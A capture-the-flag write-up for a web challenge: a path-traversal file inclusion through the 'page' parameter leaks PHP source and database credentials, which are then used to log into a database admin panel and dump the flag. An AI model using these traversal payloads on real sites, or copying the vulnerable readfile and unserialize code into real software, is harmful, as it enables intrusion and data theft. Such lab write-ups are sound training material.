 ## WEB550 - Database

By clicking the menu link, we get a route https://71fb1303c76a0ab6cc6890256c1e743e.challenge.hackazon.org/index.php?page=menu. Since page is a parameter we control, we can tamper around with it and exploit a Local File Inclusion vulnerability by visiting https://71fb1303c76a0ab6cc6890256c1e743e.challenge.hackazon.org/index.php?page=../index. This gives us the following source code:

````
dbConnect(); $this->siteConfig(); $this->render(); } function dbConnect() { // connect to database $cfg = include("db.inc.php"); $this->db = new PDO($cfg['db_dsn'], $cfg['db_user'], $cfg['db_pass']); $this->db->setAttribute(PDO::ATTR_DEFAULT_FETCH_MODE, PDO::FETCH_ASSOC); } function siteConfig() { // get site configuration $select = $this->db->query('SELECT k,v FROM config'); foreach ($select->fetchAll() as $entry) { extract($entry); $GLOBALS[$k] = $$k = unserialize($v); } // in maintenance? if ($maintenance_mode) { header("content-type: text/plain"); print $maintenance_text; exit; } } function render() { // load/parse page $page = (string) @$_GET['page'] ?: "home"; include("pages/template_top.php"); readfile("pages/${page}.php"); readfile("pages/template_bottom.php"); } function __destruct() { $this->db = null; file_put_contents($this->logfile, $GLOBALS['log_visitor_entry']); } } new Website;
````

For later challenges, we can note that the LFI comes from the code line `readfile("pages/${page}.php");`. Looking at the code  `$cfg = include("db.inc.php");`, we can visit https://71fb1303c76a0ab6cc6890256c1e743e.challenge.hackazon.org/index.php?page=../db.inc to get the following source code as well:

````
'mysql:dbname=pizzeria;host=127.0.0.1', 'db_user' => 'website_ro', 'db_pass' => 'PizzaNoPineapple!' ];
````

With this in hand, we can visit https://71fb1303c76a0ab6cc6890256c1e743e.challenge.hackazon.org/pma/ to reach a PhpMiniAdmin dashboard and log on to the database dashboard. Here we can dump the contents of a the database to find a table called config where the flag among more data is stored.